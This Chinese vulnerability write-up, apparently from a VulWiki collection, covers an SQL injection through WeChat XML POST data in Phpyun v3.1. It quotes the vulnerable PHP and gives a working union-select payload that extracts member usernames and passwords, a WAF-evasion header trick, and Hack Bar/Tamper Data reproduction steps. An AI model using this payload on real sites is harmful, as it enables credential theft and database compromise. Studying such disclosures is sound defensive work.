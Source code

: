 Phpyun v3.1 xml 注入漏洞
========================

一、漏洞简介
------------

函数过滤不严谨，用户POST过去的内容没有进行任何过滤，导致攻击者可以利用XML实体进行注入，从而获取数据库敏感信息

二、漏洞影响
------------

3.1 build14061

三、复现过程
------------

### 漏洞分析

本次漏洞文件位于 `weixin/model/index.class.php` ，代码如下：

private function responseMsg() { \$postStr =
\$GLOBALS\[\"HTTP\_RAW\_POST\_DATA\"\];

    if (!empty($postStr)){

                 $postObj = simplexml_load_string($postStr, 'SimpleXMLElement', LIBXML_NOCDATA);
                  $fromUsername = $postObj->FromUserName;
                  $toUsername = $postObj->ToUserName;
                  $keyword = trim($postObj->Content);
                  $time = time();
                  $textTpl = "<xml>
         <![CDATA[%s]]>
         <![CDATA[%s]]>
         %s
         <![CDATA[%s]]>
         <![CDATA[%s]]>
         0
         </xml>";
      if(!empty( $keyword ))
                  {
                  $msgType = "text";
                   $contentStr = "Welcome to wechat world!";
                   $resultStr = sprintf($textTpl, $fromUsername, $toUsername, $time, $msgType, $contentStr);
                   echo $resultStr;
                  }else{
                   echo "Input something...";
                  }

          }else {
           echo "";
           exit;
          }
      }

这里将\$postStr = \$GLOBALS\[\"HTTP\_RAW\_POST\_DATA\"\]，通过
simplexml\_load\_string解析后的内容，将其直接带入了\$textTpl。

然而\$postStr = \$GLOBALS\[\"HTTP\_RAW\_POST\_DATA\"\]
，直接获取了POST过来的XML内容，没有经过任何处理，并在最后将其输出。
if(\$MsgType==\'event\') { \$MsgEvent = \$postObj-\>Event; if
(\$MsgEvent==\'subscribe\') { \$centerStr =
\"\<!\[CDATA\[欢迎您关注\".iconv(\'gbk\',\'utf-8\',\$this-\>config\[\'sy\_webname\'\]).\"！/n
1：您可以直接回复关键字如【销售】、【南京 销售】、【南京 销售
XX公司】查找您想要的职位/n绑定您的账户体验更多精彩功能/n感谢您的关注！\]\]\>\";
\$this-\>MsgType = \'text\';

      }elseif ($MsgEvent=='CLICK')
      {
       $EventKey = $postObj->EventKey;
       if($EventKey=='我的帐号'){
        $centerStr = $this->bindUser($fromUsername);

       }elseif($EventKey=='我的消息')
       {
        $centerStr = $this->myMsg($fromUsername);
       }elseif($EventKey=='面试邀请')
       {
        $centerStr = $this->Audition($fromUsername);

       }elseif($EventKey=='简历查看')
       {

        $centerStr = $this->lookResume($fromUsername);

       }elseif($EventKey=='刷新简历')
       {

        $centerStr = $this->refResume($fromUsername);

从上述代码可以看出来，当满足那上面的条件后都会进入不同的相应的函数，但是都会进入一个名为`isBind`函数。

接下来追踪isBind函数：

private function isBind(\$wxid=\'\') {

    if($wxid)
    {
     $User = $this->obj->DB_select_once("member","`wxid`='".$wxid."'","`uid`,`username`");
    }
    if($User['uid']>0)
    {
     $User['bindtype'] = '1';
     $User['cenetrTpl'] = "<![CDATA[您的".iconv('gbk','utf-8',$this->config['sy_webname'])."帐号：".$User['username']."已成功绑定！ /n/n/n 您也可以config['sy_weburl']."/wap/index.php?m=login&wxid=".$wxid."/">点击这里进行解绑或绑定其他帐号]]>";

    }else{

     $Token = $this->getToken();
     $Url = 'https://api.weixin.qq.com/cgi-bin/user/info?access_token='.$Token.'&openid='.$wxid.'&lang=zh_CN';
     $CurlReturn  = $this->CurlPost($Url);
     $UserInfo    = json_decode($CurlReturn);

     $wxid        = $wxid;
     $wxname      = $UserInfo->nickname;
     $this->config['token_time'] = time();

     $User['cenetrTpl'] = '<![CDATA[您还没有绑定帐号，config['sy_weburl'].'/wap/index.php?m=login&wxid='.$wxid.'">点击这里进行绑定!]]>';
    }

    return $User;

    }

可以看到，从始至终wxid变量始终没有经过任何过滤，在第一行的`$wxid`就是我们传进来的FromUserName的值，可以直接进入SQL语句，进行任意注入。

因此我们可以针对其构造Payload，内容如下：

一般来说，我们只需要将Payload以POST形式的数据发出去，就可以成功的获取数据库敏感信息，但是服务器如果有WAF，提交的恶意数据必然会被拦截，因此，我们需要修改HTTP头，伪装成XML就可以不受到WAF的拦截：

    Content-type:text/xml;charset=utf-8

### 漏洞复现

我们首先打开目标站点，点击网页左侧注册按钮，首先注册一个账号：

![](/Users/aresx/Documents/VulWiki/.resource/Phpyunv3.1xml注入漏洞/media/rId26.gif)

这个时候已经是登录状态，我们按`F9` 调出 `Hack Bar`
的界面，点击`Enable Post data` ，将Payload写入输入框，如下图所示：

![](/Users/aresx/Documents/VulWiki/.resource/Phpyunv3.1xml注入漏洞/media/rId27.png)

#### payload文件:

##### 注:payload文件内容需手动输入相应位置

    <?xml version="1.0" encoding="utf-8"?>
      <xml>
        1111
        1111' and 1=2 union select 1,(select concat(username,password) from phpyun_member limit 0,1)#
        1402550611
        event
        CLICK
        我的账号
        0
      </xml>

接下来还需要修改HTTP头，伪装成XML，点击浏览器上方工具栏，打开`Tamper Data`
，点击启动。

![](/Users/aresx/Documents/VulWiki/.resource/Phpyunv3.1xml注入漏洞/media/rId30.gif)

现在前提工作已经做好，接下来重新访问网站，Tamper Data
就会抓取到数据包，再对数据包进行更改，操作如图：

![](/Users/aresx/Documents/VulWiki/.resource/Phpyunv3.1xml注入漏洞/media/rId31.gif)

然后点击确定就可以将构造好的数据包发出去：

![](/Users/aresx/Documents/VulWiki/.resource/Phpyunv3.1xml注入漏洞/media/rId32.gif)

成功获取管理员账号密码。

参考链接
--------

> <https://blog.csdn.net/whatiwhere/article/details/84862236>
